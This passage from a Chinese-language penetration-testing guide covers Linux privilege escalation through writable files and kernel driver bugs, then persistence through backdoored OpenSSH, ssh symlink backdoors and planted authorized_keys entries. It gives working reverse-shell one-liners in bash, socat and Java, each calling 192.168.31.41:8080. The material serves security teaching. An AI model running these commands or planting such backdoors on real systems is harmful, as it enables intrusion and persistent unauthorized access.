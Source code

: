 	某些高权限进程在运行时，可能会依赖特定目录下的动态库文件或者其他重要文件（如配置文件），如果这些文件低权限用户可写，就可以控制高权限进程的行为，很容易导致提权。  
- **ko 驱动&内核提权**：   
	ko 驱动一般是运行在内核层，权限很高，如果 ko 驱动实现不当，就可能有提权风险。ko 驱动提权的一个例子是 CVE-2019-18683，它是 linux v4l2 子系统的条件竞争漏洞，可以利用该漏洞造成 uaf。  

上述5中利用思路类似，主要分析3点内容：  
1. 脚本或者程序的权限设置或者功能实现是否有问题  
2. 是否依赖了低权限用户可控的关键资源（如可执行脚本、动态库或者关键配置等）  
3. 是否存在对低权限用户可控的文件（可通过符号链接的形式）的读写功能  

如果存在，就可以在脚本或配置中植入提权命令，或者利用读写功能替换关键系统文件实现提权。可以用于 suid 或者 sudo 提权的命令见：[GTFOBins](https://gtfobins.github.io/)
第6种提权方式的利用需要满足两个条件：一是低权限用户可以向驱动的设备文件发送控制命令或者进行写操作；二是驱动在实现中存在可被利用的漏洞，如 uaf 等。   
测试人员可以利用驱动漏洞在内核层进行漏洞利用，将当前与设备交互的进程权限提升为 root 权限。   
其他内容：[PXN防护技术的研究与绕过\_pxn的目的-CSDN博客](https://blog.csdn.net/hu3167343/article/details/47394707)  
  
## 4.4 持久化  
持久化包括攻击者在用户系统重新启动，更改的凭据以及可能切断其访问权限的情况保持对系统的访问权限的技术。用于持久化的技术包括任何访问、操作或更改配置，使攻击者能够在系统上拥有权限，例如替换或劫持合法代码或添加启动脚本。  
更多内容：[MITRE ATT&CK®](https://attack.mitre.org/)  
  
### 4.4.1 SSH 衍生的各种方法   
1. openssh包替换：  
	事先制作带有后门的 OpenSSH，如增加后门密码，将 openssh 使用时相关的用户名密码等记录到某个特定的文件等，然后再进行替换。  
	参考内容：[OpenSSH后门的安装 | Hone老帅](http://hone.cool/2018/03/22/OpenSSH%E5%90%8E%E9%97%A8%E7%9A%84%E5%AE%89%E8%A3%85/)  
2.  通过 ssh 软连接  
	通过软连接建立一个 ssh 后门  
	内容参考：[ssh 软连接后门使用 – 旧时光笔记](https://www.jozxing.cc/archives/1653)  
3. 利用公钥免密登录  
	攻击者在自己的机器上生成 SSH 相关的公钥（id_rsa.pub）和私钥（id_rsa）。在被攻击的服务器上，将攻击者的公钥内容粘贴到文件 `/root/.ssh/authorized_keys` 里(如果原来存在内容就另起一行粘贴)。  
	然后，直接 SSH 即可登陆被攻击的服务器了。当然，这种攻击很容易被发现。  

### 4.4.2 反弹shell  
#### 4.4.2.1 bash 反弹   
Bash 产生一个交互环境与本地主机主动发起与目标主机8080端口建立的连接（即 TCP 8080 会话连接）相结合，然后再重定向个 TCP 8080会话连接，最后将用户键盘输入与用户标准输出相结合后再次重定向给一个标准的输出，即得到一个 Bash 反弹环境。   
```shell
root# bash -i >& /dev/tcp/192.168.31.41/8080 0>&1  
```  
#### 4.4.2.2 socat 反弹   
Socat 是 Linux 下一个多功能的网络工具，名字来由是“Socket CAT”，因此可以看出它基于 Socket，能够折腾 Socket 相关的无数事情，其功能与 netcat 类似。   
```shell
root# socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.31.41:8080  
```  
#### 4.4.2.3 java 脚本反弹   
```java  
r = Runtime.getRuntime()    
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.31.41/8080;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])    
p.waitFor()  
```  
#### 4.4.2.4 msfvenom 反弹   
MSF 框架也为我们提供了生成一句话反弹 Shell 的工具，即 msfvenom   
其他内容：[【技术分享】linux各种一句话反弹shell总结-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/87017)  
